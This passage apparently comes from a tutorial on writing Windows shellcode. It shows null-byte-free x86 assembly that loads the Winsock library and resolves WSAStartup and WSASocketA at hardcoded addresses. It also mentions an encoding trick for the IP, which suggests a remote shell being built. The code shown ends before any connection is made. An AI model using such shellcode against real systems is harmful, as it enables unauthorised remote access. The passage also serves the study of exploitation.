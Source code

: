 This time we had to use another trick to encode the IP, which contains NULLs. The solution was to add the value 0x11111111 to it and then subtract to get the correct IP.

Here it is the complete code so far:

~~~
global _start

section .text

_start:

.loadWinSock:
	xor eax, eax

	mov ax, 0x3233			;23
	push eax				;includes \0 at the end without insert NULLs
	push 0x5f327377 		;_2sw
	push esp			;pointer to the string

	mov ebx, 0x7c801d7b		;0x7b1d807c  	;addr of LoadLibraryA (0x7c801d7b)
	call ebx

	mov ebp, eax			;save winsock handle

.getWSAStartup:
	xor eax, eax

	mov ax, 0x7075      ; 'up'
	push eax
	push 0x74726174     ; 'trat'
	push 0x53415357     ; 'SASW'
	push esp	    ;pointer to the string

	push ebp	    ;winsock handler
	
	mov ebx, 0x7c80ae40 ;addr of GetProcAddress
	call ebx

.callWSAStartUp:
	xor ebx, ebx
	mov bx, 0x0190
	sub esp, ebx
	push esp
	xor ecx, ecx
	mov cx, 0x0202
	push ecx

	call eax		; WSAStartUp(MAKEWORD(2, 2), wsadata_pointer)


.getWSASocketA:
	xor eax, eax

	mov ax, 0x4174      ; 'At'
	push eax
	push 0x656b636f     ; 'ekco'
	push 0x53415357     ; 'SASW'
	push esp	    ;pointer to the string

	push ebp	    ;socket handler
	
	mov ebx, 0x7c80ae40 ;addr of GetProcAddress
	call ebx

~~~